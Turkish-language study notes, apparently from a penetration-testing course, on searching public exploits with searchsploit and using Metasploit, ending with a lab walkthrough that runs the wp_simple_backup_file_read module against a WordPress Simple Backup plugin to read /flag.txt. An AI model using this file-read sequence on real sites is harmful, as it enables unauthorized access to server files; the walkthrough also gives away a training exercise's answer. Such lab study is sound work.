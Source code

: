 ```yaml
---
icon: material/help
---
```


# Public Exploits

## Finding Public Exploits

Güvenlik açıklarını aramak için `searchsploit` isimli aracı (Ubuntu için mevcut olmayabilir) kullanabiliriz.

Aracı yükle:

```bash
sudo apt update && sudo apt install -y exploitdb
```

Örnek bir arama gerçekleştir:

```bash
searchsploit openssh 7.2
```

## Metasploit Primer

MSF (Metasploit Framework), sızma testi için kullanılabilecek faydalı araçlardan birisidir. Birçok güvenlik açığına yönelik yerleşik istismarlar içerir. Araca ait bazı özellikler aşağıda verilmiştir:

* Hedefi gerçekten tehlikeye atmadan bir güvenlik açığının varlığını test etmek için doğrulama komut dosyaları içerir.
* Uzak bilgisayarları numaralandırmak için keşif komut dosyaları çalıştırabilir.
* Shell bağlantısı ve güvenliği ihlal edilmiş hedefler üzerinde komutlar çalıştırmak için kullanılan Meterpreter isimli aracı içerir.
* Birçok post-exploitation ve pivoting (lateral movement) aracı içerir.

MSF aşağıdaki komut ile sisteme yüklenebilir:

```bash
sudo apt update && sudo apt install -y metasploit-framework
```

Aşağıda Msfconsole aracı için bazı kullanım örnekleri verilmiştir:

| Command | Description |
|:---|:---|
| `msfconsole` | Konsol başlatılır. |
| `search` | Çeşitli aramalar gerçekleştirilir. |
| `help search` | Arama özelliği ile ilgili yardım görüntülenir. |
| `use` | Verilen bir modül kullanılır. |
| `show options` | Modül seçenekleri görüntülenir. |
| `set` | Modül seçenekleri ayarlanır. |
| `check` | Hedefin savunmasız olup/olmadığı kontrol edilir. |
| `exploit` | Exploit başlatılır. |
| `exit` | Konsol kapatılır. |

## Questions

```text
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```

??? tip "Steps"

    Soruda verilen hedef makine adresini tarayıcı arama çubuğuna gir ve adrese git.

    Açılan sayfada `Simple Backup Plugin 2.7.10 for WordPress` başlığına vurgu yapıldığını görebilirsin. Ardından Msfconsole içinde aşağıdaki aramayı gerçekleştir:

    ```text
    search wordpress backup
    ```

    Çıkan sonuçlardan Simple Backup ile ilgili olan [modülü](https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/) kullan. Bu modül sayesinde dosyalar web sunucusu ayrıcalıklarıyla okunabilir:

    ```text
    use auxiliary/scanner/http/wp_simple_backup_file_read
    ```

    Modüle ait seçenekleri `show options` ile görüntüledikten sonra gerekli seçenekler ayarlanmalıdır. Soruda kök dizin (`/`) altındaki `flag.txt` dosyasının içeriğine ulaşmamız istendiğinden `FILEPATH` seçeneğinin değeri sadece `flag.txt` olarak ayarlanmalıdır:

    ```text
    set FILEPATH flag.txt
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 94.237.49.11
    ```

    RPORT değerini ayarla:

    ```text
    set RPORT 49656
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Modül yürütmesi tamamlandıktan sonra `flag.txt` dosyası çıktıda belirtilen konuma kaydedilecektir. Konsolu kapattıktan sonra bu dosyanın içeriğini görüntüle:

    ```bash
    cat /home/user/.msf4/loot/20231103053630_default_94.237.49.11_simplebackup.tra_535374.txt
    ```

